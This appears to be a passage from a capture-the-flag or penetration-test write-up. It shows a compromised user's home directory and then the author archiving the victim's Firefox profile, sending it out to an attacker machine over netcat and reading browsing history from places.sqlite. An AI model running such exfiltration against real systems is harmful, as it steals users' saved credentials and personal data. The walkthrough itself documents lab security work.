 ```
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Documents
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Downloads
-rw-r--r--  1 elwin.jones elwin.jones     34 Oct  9 10:50 .lesshst
-rwxrwxr-x  1 elwin.jones elwin.jones 971820 Oct  9 10:52 linpeas.sh
drwxr-xr-x  3 elwin.jones elwin.jones   4096 Apr 13  2023 .local
drwx------  4 elwin.jones elwin.jones   4096 Apr 13  2023 .mozilla
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Music
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Pictures
-rw-r--r--  1 elwin.jones elwin.jones    807 Apr 13  2023 .profile
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Public
drwx------  3 elwin.jones elwin.jones   4096 Oct  9 10:53 snap
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Templates
-rw-r--r-- 79 root        sysadmin        33 Oct  9 10:27 user.txt
drwxr-xr-x  2 elwin.jones elwin.jones   4096 Apr 13  2023 Videos
```

The `.mozilla` contained files for `firefox`, which could be a high value target as it can contain user personal data and saved credentials.

I packaged the folder and transferred it to my local machine.
```
# ON TARGET MACHINE
elwin.jones@corporate-workstation-04:~$ tar cvf mozilla.tar .mozilla/
elwin.jones@corporate-workstation-04:~$ nc -q 0 10.10.xxx.xxx 81 < mozilla.tar
elwin.jones@corporate-workstation-04:~$ md5sum mozilla.tar
b628a82b7588a541d0099596b45e7311  mozilla.tar

# ON LOCAL MACHINE
❯ nc -lp 81 > mozilla.zip
❯ md5sum mozilla.zip
b628a82b7588a541d0099596b45e7311  mozilla.zi
```

I inspected `.mozilla/firefox/tr2cgmb6.default-release/places.sqlite` for user's personal browser data.
```
❯ sqlite3 places.sqlite
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .tables
moz_anno_attributes                 moz_keywords
moz_annos                           moz_meta
moz_bookmarks                       moz_origins
moz_bookmarks_deleted               moz_places
moz_historyvisits                   moz_places_metadata
moz_inputhistory                    moz_places_metadata_search_queries
moz_items_annos                     moz_previews_tombstones
sqlite> select * from moz_places;
1|https://www.mozilla.org/privacy/firefox/||gro.allizom.www.|1|1|0|25|1681400333037910|yZ7pVlxR_J5G|0|47356411089529||||1|0
2|https://www.mozilla.org/en-US/privacy/firefox/|Firefox Privacy Notice — Mozilla|gro.allizom.www.|1|0|0|100|1681400333095967|qMP6DODLnNK8|0|47358032558425|
  Our Privacy Notices describe the data our products and services receive, share, and use, as well as choices available to you.
|https://www.mozilla.org/media/img/mozorg/mozilla-256.4720741d4108.jpg||1|0
3|https://support.mozilla.org/products/firefox||gro.allizom.troppus.|0|0|0|1||5kDP-c2HzT7U|1|47358327123126||||2|1
4|https://support.mozilla.org/kb/customize-firefox-controls-buttons-and-toolbars?utm_source=firefox-browser&utm_medium=default-bookmarks&utm_campaign=customize||gro.allizom.troppus.|0|0|0|1||bQUK5jRKzF0U|1|47359956450016||||2|1
5|https://www.mozilla.org/contribute/||gro.allizom.www.|0|0|0|1||ye-XA9FHIDj2|1|47357364218428||||1|1
6|https://www.mozilla.org/about/||gro.allizom.www.|0|0|0|1||0TY3joPtLyE_|1|47357608426557||||1|1
7|http://www.ubuntu.com/||moc.utnubu.www.|0|0|0|1||fMlEPB5oJHET|1|125508050257634||||3|1
8|http://wiki.ubuntu.com/||moc.utnubu.ikiw.|0|0|0|1||VvzmVWb-PRB_|1|125511519733047||||4|1
```